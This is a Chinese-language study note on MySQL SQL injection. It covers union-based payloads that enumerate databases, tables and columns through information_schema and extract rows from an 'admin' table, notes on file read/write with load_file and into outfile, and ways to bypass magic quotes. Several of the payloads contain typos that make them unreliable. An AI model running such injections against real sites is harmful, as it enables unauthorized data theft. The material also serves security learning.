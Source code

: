 [TOC]



# SQL注入之MySQL注入





除上节的信息收集外：

MySQL注入：

-   高权限注入
    -   常规查询
    -   跨库查询
    -   文件读写
        -   存在魔术引号：编码或宽字节绕过
        -   不存在魔术引号
-   相关防注入
    -   自带防御：魔术引号
    -   内置函数：int等
    -   自定义关键字：select
    -   WAF防护软件：安全狗，宝塔等。

------

## 高权限注入及低权限注入

### 跨库查询及相应思路

​	information_schema表特征，记录库名，表名列名对应表

1.  获取所有数据库名

    `id=-1 union select 1,group_concat(schema_name),3, from informaton_schema.schema`

    假设得到数据库ssqq

2.  获取指定ssqq数据库下表名信息

    `id=-1 union select 1,group_concat(table_name),3, from informaton_schema.tables where table_schema='ssqq'`

    假设得到表admin

3.   获取ssqq数据库下表admin的段名信息

    `id=-1 union select 1,group_concat(column_name),3, from informaton_schema.column where table_name='admin'`

     因为admin比较常见，所以上述查询语句可能查询出其他数据库下的admin表，那么加一句：

    `id=-1 union select 1,group_concat(column_name),3, from informaton_schema.column where table_name='admin' and table_schema='ssqq'`

4.  获取数据

    `union select 1 u,p from ssqq.admin`



### 文件读写操作

load_file()：读取函数

into outfile或into dumpfile：写入函数

### 路径获取常见方法

报错显示，遗留文件，漏洞报错，平台报错文件，爆破等。

### 常见写入文件问题：魔术引号开关

`magic_quotes_gpc`





















